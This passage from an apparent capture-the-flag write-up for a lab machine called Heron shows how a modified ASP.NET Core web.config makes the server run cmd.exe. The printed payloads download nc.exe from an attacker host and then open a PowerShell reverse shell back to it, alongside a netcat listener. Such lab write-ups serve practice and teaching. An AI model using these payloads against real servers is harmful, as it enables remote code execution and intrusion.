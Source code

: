 ![alt text](../assets/image_heron/5er.png)

So we can try to modify this file for getting a reverse shell as 'svc-web-accounting' on the windows machine

Thanks to the ls in the smbclient we can guess that an 'accounting' vhost exists

Add on your /etc/hosts and reach the site

And now modify the web.config like this : 

```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="toto" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments='/c echo IWR http://10.10.173.54:8000/nc.exe -OutFile %TEMP%\nc.exe | powershell -noprofile' stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="OutOfProcess" />
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```
So, when we go to reach 'accounting.heron.vl/toto', cmd.exe will fetch our nc.exe (note: the nc.exe must be on the target linux machine)

and now redo the same with this :

```bash
svc-web-accounting-d@heron.vl@frajmp:~$ nc -lvnp 9001
Listening on 0.0.0.0 9001
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="toto" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments='/c %TEMP%\nc.exe 10.10.173.54 9001 -e powershell' stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="OutOfProcess" />
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```
## Root on linux machine
